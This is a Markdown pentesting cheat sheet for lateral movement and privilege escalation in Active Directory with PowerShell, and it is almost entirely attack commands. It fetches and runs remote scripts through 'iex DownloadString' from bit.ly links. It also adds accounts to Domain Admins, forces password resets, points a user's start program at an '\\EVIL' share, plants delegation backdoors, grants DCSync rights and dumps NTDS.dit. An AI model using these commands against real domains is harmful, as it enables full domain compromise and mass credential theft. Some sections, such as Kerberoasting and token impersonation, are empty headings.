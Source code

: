 ```yaml
---
layout: post
title: TA0008 Lateral Movement - AD Privilege Escalation with Powershell
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2022-02-11
permalink: /:categories/:title/
---
```

<!-- vscode-markdown-toc -->
* [PRE-REQUISITE: Installing PowerUp and PowerSploit](#PRE-REQUISITE:InstallingPowerUpandPowerSploit)
* [Tampering the OS to enabling Remote Administration](#TamperingtheOStoenablingRemoteAdministration)
* [LATERAL MOVEMENT](#LATERALMOVEMENT)
* [PRIVESC](#PRIVESC)
* [TOKEN IMPERSONATION](#TOKENIMPERSONATION)
* [ADD MEMBER](#ADDMEMBER)
* [FORCE PASSWORD CHANGE](#FORCEPASSWORDCHANGE)
* [KERBEROASTING](#KERBEROASTING)
* [ABUSING DELEGATION](#ABUSINGDELEGATION)
* [DUMP NTDS.DIT](#DUMPNTDS.DIT)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='PRE-REQUISITE:InstallingPowerUpandPowerSploit'></a>PRE-REQUISITE: Installing PowerUp and PowerSploit

- [PowerUp CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf)
- [PowerSploit CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerSploit.pdf)

```powershell
# ActiveDirectory Module
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

# PowerUp Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/1PdjSHk'); . .\PowerUp.ps1

# PowerSploit Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/28RwLgo'); . .\PowerSploit.ps1
```

## <a name='TamperingtheOStoenablingRemoteAdministration'></a>Tampering the OS to enabling Remote Administration
```powershell
# powershell remoting enable / verify (Needs Admin Access)
Enable-PSRemoting

# WMI remoting as user authenticated on the Da / execution with DC privileges
Set-RemoteWMI -UserName johndoe -ComputerName dcorp-dc.dollarcorp.moneycorp.local -namespace 'root\cimv2' -Verbose

# RDP : enable / disable / check access
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections

```

## <a name='LATERALMOVEMENT'></a>LATERAL MOVEMENT
```powershell
Invoke-DCOM
Invoke-SMBExec
Invoke-PsExec
Invoke-Command
mstsc.exe
```

## <a name='PRIVESC'></a>PRIVESC
```
Get-Hotfix
```

## <a name='TOKENIMPERSONATION'></a>TOKEN IMPERSONATION

## <a name='ADDMEMBER'></a>ADD MEMBER
```
# OPTION 1
net group "Domain admins" dagreat /add /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat',$SecPassword)
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'jomivz' -Credential $Cred

# VERIFICATION
Get-DomainGroupMember -Identity 'Domain Admins'

# set the specified property for the given user identity
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose

# Set the owner of 'dfm' in the current domain to 'harmj0y'
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y
```


## <a name='FORCEPASSWORDCHANGE'></a>FORCE PASSWORD CHANGE
```
# OPTION 1
net user dagreat Password123! /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat',$SecPassword)
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity dagreat -AccountPassword $UserPassword -Credential $Cred
```

## <a name='KERBEROASTING'></a>KERBEROASTING
```

```
## <a name='ABUSINGDELEGATION'></a>ABUSING DELEGATION
```
# configure the CD backdoor with proto transition
Get-ADComputer -Identity <ServiceA> | Set-ADAccountControl -TrustedToAuthForDelegation $true
Set-ADComputer -Identity DC01 -Add @{'msDS-AllowedDelegationTo'=@('CIFS/DC01.corp')}

# configure a RBCD backdoor
# ServiceB has 'msDS-AllowedToActOnBehalfOfOtherIdentity' set, pointing to ServiceA
Set-ADComputer <ServiceB> -PrincipalAllowedToDelegateToAccount <ServiceA>

# trigger the backdoor
[Reflection::Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('<DAgreat>')
$idToImpersonate.Impersonate()
```

# Set A DCSYNC
```
Add-ObjectAcl -TargetDistinguishedName "dc=<DC01>,dc=local" -PrincipalSamAccountName <sogreatW -Rights DCSync -Verbose
```

## <a name='DUMPNTDS.DIT'></a>DUMP NTDS.DIT
```
ntdsutil.exe "activate instance ntds" "ifm" "Create Full C:\Temp\ntds.dmp" quit quit
```
